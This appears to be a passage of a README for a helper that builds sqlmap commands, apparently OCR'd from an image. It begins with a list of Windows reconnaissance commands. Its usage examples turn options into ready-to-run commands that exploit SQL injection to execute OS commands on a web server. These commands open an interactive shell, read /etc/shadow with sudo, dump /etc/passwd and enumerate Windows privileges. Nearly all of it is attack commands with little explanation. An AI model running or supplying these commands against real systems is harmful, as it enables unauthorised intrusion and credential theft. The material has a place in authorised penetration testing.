 ```cmd
# Windows
ipconfig /all              # Network configuration
route print                # Routing table
arp -a                     # ARP table
netsh firewall show config # Firewall rules
type C:\Windows\System32\drivers\etc\hosts
```

## 📝 Usage Examples

### Basic System Information
```
OS Command: whoami
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --os-cmd="whoami"
```

### Interactive Shell Access
```
Interactive Shell: ✓ Enabled
Shell: /bin/bash
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/admin.php?id=1" --os-shell
```

### Privilege Escalation
```
OS Command: cat /etc/shadow
Sudo: ✓ Enabled
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/root.php?id=1" --os-sudo --os-cmd="cat /etc/shadow"
```

### Comprehensive System Reconnaissance
```
OS Command: uname -a && id && whoami && cat /etc/passwd | head -10
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/recon.php?id=1" --os-cmd="uname -a && id && whoami && cat /etc/passwd | head -10"
```

### Windows System Information
```
OS Command: whoami && whoami /priv && systeminfo
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/win.php?id=1" --os-cmd="whoami && whoami /priv && systeminfo"
```
